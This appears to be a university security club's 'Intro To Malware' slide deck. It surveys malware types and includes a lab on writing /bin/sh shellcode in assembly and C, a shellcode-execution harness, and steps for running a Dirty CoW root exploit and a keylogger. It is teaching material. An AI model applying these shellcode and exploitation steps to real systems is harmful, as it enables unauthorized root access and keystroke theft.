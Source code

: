 # Intro To Malware

By: Nick Bulischeck, Foster McLane, Mackenzie Binns

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!



# Types


## Rootkits

* rings
* chkrootkit
* DLL Injection (DYLIB for the Mac people)


## RAT

* remote administration tool
* typically accompanied by a rootkit
* DarkComet + PoisonIvy


## Ransomware

* encryption routine
	- AES256, RSA 2048, SHA512, ChaCha20, etc.
* typically has a server component
* CryptoWall


## Worms

* self-propagating
* Stuxnet
* Mirai


## Trojans

* backdoors
* office macros
* FinFisher (Lench/Gamma), Galileo RCS (HT)


## Virus

* spreads by hand
* polymorphic
* deleting files, crashing OS, corrupting files, etc.



# Languages


## Shellcoding

* a set of instructions that are injected by the user and executed by the exploited binary
* x86 Assembly GAS/AT&T vs Intel


## C

* ransomware
* rootkits
* pretty much anything
* not web stuff


## Java

* mobile
* IoT (TVs, fridges)


## Python

* web
* reverse shells



# Fun Time


## Clone Me

```sh
git clone git@github.com:nbulischeck/temp.git
```


## Shellcoding


### Writing The Assembly

#### first.asm

```asm
global _start
_start:
        push 60
		pop rax
        xor rdi,rdi
		syscall
```


### Getting The Shellcode

```sh
objdump -d ./PROGRAM |grep '[0-9a-f]:'|grep -v 'file' | \
cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' ' | \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```


### ...Or Just Use What I Wrote

```sh
./getshellcode.py first
```


### Get This

```
\x6a\x3c\x58\x31\xdb\x0f\x05
```


### Run Shellcode

#### codetest.c

```c
const char code[] = "bytecode will go here!";
int main(int argc, char **argv){
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```


### Spawning a Shell in C

#### shell.c

```c
#include <stdlib.h>
#include <unistd.h>

int main(){

	char *shell[2];
	shell[0] = "/bin/sh";
	shell[1] = NULL;
	execve(shell[0], shell, NULL);
	exit(0);

}
```


### Spawning a Shell in Assembly

#### shell.asm

```asm
section .text
   global _start
shell:
	pop rdi

	push 59
	pop rax

	xor rsi, rsi
	xor rdx, rdx

	syscall

_start:
	call shell
	db '/bin/sh'
```



## Dirty CoW

* "dirty" copy-on-write, race condition, private read-only memory mappings
* privilege escalation
* works on RHEL7 Linux  x86\_64, Debian 7 ("wheezy")
* Ubuntu 14.04.5 LTS, Ubuntu 16.04.1 LTS, Ubuntu 16.10
* Linux Mint 17.2


### Changing passwords

* `mkpasswd -m sha-512`
* alter genpasswd.py (Python 3.3 vs. others)


### Running

* `./dcow`
* If you won the race, congratulations on root!



## Keylogger

* `sudo ./keylogger`
* do not background it
* /tmp/tmp54e3zO/tmp54e3z0.log


# Questions?
